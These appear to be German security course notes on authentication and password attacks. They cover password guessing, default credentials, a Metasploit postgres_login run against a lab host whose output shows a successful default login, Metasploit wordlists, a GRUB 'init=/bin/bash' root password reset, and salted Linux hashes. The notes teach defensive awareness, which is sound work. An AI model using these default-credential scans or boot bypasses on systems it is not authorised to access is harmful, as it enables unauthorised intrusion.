


## Zugriffschutz

- Authentifizierung: Identität feststellen

- Authorisierung: Berechtigungen feststellen


Zusätzliche Sicherheit: Zwei-Faktor-Authentifizierung

 

## Angriffsvektoren auf Passwörter

Login-Daten / Credentials


[wikipedia : Pharming](https://de.wikipedia.org/wiki/Pharming_(Internet)) – Browser wird per DNS poisoning auf eine Phishing Web-Site umgeleitet.


## Password Guessing


Ein Passwort muss man sich merken können, daher irgend ein Schema als Merkhilfe.

Z.B. Name der Ehefrau "helene", allerdings lassen das die Passwortrichtlinien (password policy) nicht zu, daher hängt der Nutzer einfach ein Sonderzeichen und so viele Ziffern an bis die Mindestlänge erreicht ist außerdem wird der Name groß geschrieben. Die Ziffern ergeben sich aus dem Geburtdatum.


Reconnaissance Phase: Herausfinden von Informationen über Leben und Umfeld einer Person, daraus sind Rückschlüsse auf das verwendete Passwort möglich.

Online Password Guessing ist oftmals nicht erfolgreich weil meist die Anmeldung nach 3-5 Fehlversuchen gesperrt wird.


## Default Passwörter

Viele Dienste und Systeme kommen mit Default Passwörtern. Werden oft nach dem installieren nicht geändert. Router, WLAN Acces Point, Datenbanksysteme, etc.

mysql: "root" / "" (kein Passwort)

- [(List of) Default Passwords](https://datarecovery.com/rd/default-passwords/)

- [CIRT.net : Default Password DB](https://cirt.net/passwords)
- usw.

Auch aussichtsreich: Usernamen als Passwort probieren


Banner Grabbing, etc. -> Hersteller, SW Version  -> Suchen nach Default Logins

### Metasploit

```
msf6 > use auxiliary/scanner/postgres/postgres_login
msf6 auxiliary(scanner/postgres/postgres_login) > set RHOSTS 192.168.178.71
RHOSTS => 192.168.178.71
msf6 auxiliary(scanner/postgres/postgres_login) > run

[-] 192.168.178.71:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[+] 192.168.178.71:5432 - Login Successful: postgres:postgres@template1
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Metasploit enthält etliche Default Passwörter Listen:

```
$ ls /usr/share/metasploit-framework/data/wordlists 

adobe_top100_pass.txt                     ipmi_passwords.txt               rservices_from_users.txt
av_hips_executables.txt                   ipmi_users.txt                   sap_common.txt
av-update-urls.txt                        joomla.txt                       sap_default.txt
burnett_top_1024.txt                      keyboard-patterns.txt            sap_icm_paths.txt
burnett_top_500.txt                       lync_subdomains.txt              scada_default_userpass.txt
can_flood_frames.txt                      malicious_urls.txt               sensitive_files.txt
cms400net_default_userpass.txt            mirai_pass.txt                   sensitive_files_win.txt
common_roots.txt                          mirai_user_pass.txt              sid.txt
dangerzone_a.txt                          mirai_user.txt                   snmp_default_pass.txt
dangerzone_b.txt                          multi_vendor_cctv_dvr_pass.txt   telerik_ui_asp_net_ajax_versions.txt
db2_default_pass.txt                      multi_vendor_cctv_dvr_users.txt  telnet_cdata_ftth_backdoor_userpass.txt
db2_default_userpass.txt                  named_pipes.txt                  tftp.txt
db2_default_user.txt                      namelist.txt                     tomcat_mgr_default_pass.txt
default_pass_for_services_unhash.txt      oracle_default_hashes.txt        tomcat_mgr_default_userpass.txt
default_userpass_for_services_unhash.txt  oracle_default_passwords.csv     tomcat_mgr_default_users.txt
default_users_for_services_unhash.txt     oracle_default_userpass.txt      unix_passwords.txt
dlink_telnet_backdoor_userpass.txt        password.lst                     unix_users.txt
hci_oracle_passwords.csv                  piata_ssh_userpass.txt           vnc_passwords.txt
http_default_pass.txt                     postgres_default_pass.txt        vxworks_collide_20.txt
http_default_userpass.txt                 postgres_default_userpass.txt    vxworks_common_20.txt
http_default_users.txt                    postgres_default_user.txt        wp-plugins.txt
http_owa_common.txt                       root_userpass.txt                wp-themes.txt
idrac_default_pass.txt                    routers_userpass.txt
idrac_default_user.txt                    rpc_names.txt
                      
```


## Passwörter zurücksetzen

Windows – utilman.exe Hack

**Linux** – anpassen des GRUB Menüs (Debian,Ubuntu,Kali)

- SHFT halten um in GRUB zu kommen

- 'e' für Grub Editor

- Zeile mit linux manipilieren

  - `ro quiet` ersetzen durch
  - `rw  init=/bin/bash`

- F10 Eintrag wird gestartet (Änderungen werden nicht gespeichert)

- Landen in einer root shell

- ```
  $ cat /etc/passwd
  # more verschlickt Zeilen! Warum ???
  $ passwd 
  ... neues root pwd ...
  $ passwd alice
  ... neues alice pwd ...
  ```
  
- System kann über die Konsole nicht neu gestartet werden - Aus/Ein-Schalten

- Terminal öffenen und in root wechseln

  ```
  $ su -
  ... root pwd eingeben ...
  ```

  

Ausprobieren: Listen aller User [[siehe](https://linuxize.com/post/how-to-list-users-in-linux/)]

```

```

## Windows Passwörter



Ein Salt Wert fehlt!


## Kerberos

Ab Windows 2000 für Active Directory  Domänen genutzt.

3 köpfige Höllenhund der griechischen Mythologie. 3 Köpfe : Client, Server den der Client nutzen möchte , Authentifizierungsserver (DC, Domain-Controller).

Kerberos authentifiziert alle beteiligten Komponenten und verhinder so MITM Angriffe.





Single Sign On

## Linux

PAM: Plugable Authentications Module

```bash
$ ls -l /etc/passwd
$ ls -l /etc/shadow
```

Passwort von `alice` und `bob` auf den gleichen Text setzen

```bash
$ passwd alice
$ passwd bob
$ tail /etc/shadow # root Rechte notwendig!
```


Erkenntnis: gehashte Passwörter von Alice und Bob sind nicht identisch! --> Grund: Salt!


